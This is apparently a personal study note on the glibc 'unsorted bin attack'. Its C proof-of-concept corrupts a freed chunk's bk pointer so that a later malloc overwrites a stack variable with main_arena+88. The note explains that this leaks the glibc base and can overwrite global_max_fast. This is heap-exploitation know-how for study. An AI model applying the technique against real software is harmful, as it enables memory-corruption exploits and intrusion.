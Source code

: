 # Unsorted_bin attack
> LongChampion, 19/03/2020

Initially, I don't think this is an attack, this is only the trick to overwrite one address in memory with a large value. But after a bit research, I see that the value used to overwrite is very interesting: this is a address of `main_arena + 88`. Why this address is interesting? If we overwrite this value to somewhere then read it, we can leak glibc base address.
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    long long Value = 0x1234567890abcdef;

    void *victim = malloc(0x100 - 8);
    void *pivot = malloc(0x100 - 8);

    free(victim);
    struct Chunk *header = (struct Chunk *) (victim - 0x10);
    header->bk = (struct Chunk *) (&Value - 2);

    void *STACK = malloc(0x100 - 8);
}
```
Look at my `unsorted_bin_into_stack.md`:
> 8 bytes at address `Fake.bk + 0x10` will be overwrite

This is how this trick work, set `header->bk` to offset 0x10 before variable `Value`, then call `malloc` with exact request size, `Value` will be overwrite to `main_arena+88`. End of trick!

## Note
- At this time of writing, this trick is no longer work with latest version of glibc (my glibc version is 2.31)
- Another way to use this trick is to overwrite the `global_max_fast` in glibc for further fastbin attack.
- `Value` is define as `long long`, so `&Value - 2` will return the address at offset 0x10 before `Value`, don't be confuse with `&Value - 0x10`.
